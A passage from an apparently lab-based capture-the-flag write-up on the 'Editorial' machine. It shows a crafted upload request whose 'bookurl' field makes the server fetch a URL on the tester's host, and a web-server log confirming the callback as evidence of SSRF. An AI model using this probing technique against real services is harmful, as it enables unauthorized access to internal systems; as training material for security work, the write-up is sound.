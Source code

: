 The `http://editorial.htb/upload` looks interesting. There's a field name called `bookurl` which accepts an URL and tries to load the image when the `Preview` button is clicked. It sends the following request.
```text
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30720708513481866454123983682
Content-Length: 372
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.hrb/upload
DNT: 1
Sec-GPC: 1 

-----------------------------30720708513481866454123983682
Content-Disposition: form-data; name="bookurl"

http://10.10.14.133:8000/aaa.jpeg
-----------------------------30720708513481866454123983682

Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------30720708513481866454123983682--
```

The above request sends a GET request to `http://10.10.14.133:8000/aaa.jpeg`.
```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.49.40 - - [18/Jun/2024 08:07:01] "GET /aaa.jpeg HTTP/1.1" 200 -
```

Looks like it's vulnerable to SSRF and we can read the data by visiting a temporary upload URL.
![alt text](images/20240618081046.png)
